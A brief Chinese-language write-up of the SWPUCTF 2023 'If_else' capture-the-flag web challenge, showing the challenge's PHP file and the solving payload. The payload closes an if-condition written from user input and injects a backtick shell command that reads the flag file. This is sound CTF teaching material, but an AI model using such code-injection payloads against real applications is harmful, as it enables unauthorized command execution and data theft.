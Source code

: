 

### [SWPUCTF 2023 秋季新生赛]If_else

进入题目发现：

```php
某一天,NSSCTF给了你一次机会,让你来自定义if中的条件,提交后访问check.php查看结果

提交方式$_POST["check"]

记得访问一下check.php哦~

check.php的内容
<?php
    $a=false;
    $b=false;
    if(你提交的部分将会被写至这里)
    {$a=true;}
    else
    {$b=true;}
    if($a===true&&$b===true)
    eval(system(cat /flag));
?> 
```

这时候如果我们访问check.php，没有任何内容，根据题目提示的话

写代码进去，先闭合前面，然后命令执行，在最后面加注释符

```(空)
check=1==1) echo `cat /f*`;/*
```

然后访问check.php

![image-20250109204907374](https://gitee.com/bx33661/image/raw/master/path/image-20250109204907374.png)

得到flag